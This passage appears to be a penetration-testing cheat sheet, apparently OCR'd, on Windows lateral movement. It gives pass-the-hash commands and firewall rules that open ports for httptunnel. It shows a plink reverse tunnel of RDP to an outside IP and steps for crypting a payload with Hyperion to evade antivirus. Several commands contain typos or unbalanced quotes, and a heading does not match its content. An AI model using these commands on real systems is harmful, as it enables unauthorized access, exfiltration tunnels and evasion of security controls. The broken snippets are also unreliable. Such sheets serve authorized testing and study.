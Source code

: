 [SMB Relay demystified and NTLMv2 Pwnage with Python](https://pen-testing.sans.org/blog/pen-testing/2013/04/25/smb-relay-demystified-and-ntlmv2-pwnage-with-python)

##### Token Stealing

Once you have admin access on a computer, you can use the tokens of the other users to access resources in the domain.

##### Passing the Hash

```
Kali> export SMBHASH="HASH"
Kali> pth-winexe -U administrator //$TARGET cmd
```

[Pass the Hash toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

##### runas

[Invoke-Runas](https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-Runas.ps)

[Runas Reference](https://ss64.com/nt/runas.html)

##### Encapsulating SSH Traffic with httptunnel

```
# Bypass Notify with administrative account
$secpasswd = ConvertTo-SecureString "password" -AsPlainText -Force
$mycreds = New-Object System.Management.Automtion.PSCredential("Administrator", $secpasswd)
$computer = "DEV01"
powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1

# add ruleset for firewall
C:\> netsh advfirewall firewall add rule name ="httptunnel_client" dir=in action=allow program="httptunnel_client.exe enable=yes
C:\> netsh advfirewall firewall add rule name ="3000" dir=in action=allow protocol=TCP localport=3000
C:\> netsh advfirewall firewall add rule name="1080 dir=in action=allow protocol=TCP localport=1080
C:\> netsh advfirewall firewall add rule name="1079" dir=in action=allow protocol=TCP localport=1079
C:\> httptunnel_client.exe

# upload /usr/share/windows-binaries/plink.exe then setup port forward
C:\> plink -l root -pw pass -R 3389:127.0.0.1:3389 208.68.234.99 -P 3000

# Bypass Anti-virus
Kali> cp payload.exe newpayload.exe
Kali> cp /usr/share/windows-binaries/Hyperion-1.0.zip .
Kali> i586-mingw32msvc-g++ Src/Crypter/*.cpp -o hyperion.exe
Kali> wine hyperion.exe ../newpayload.exe ../crypted.exe
```

[SigThief](https://github.com/secretsquirrel/SigThief)

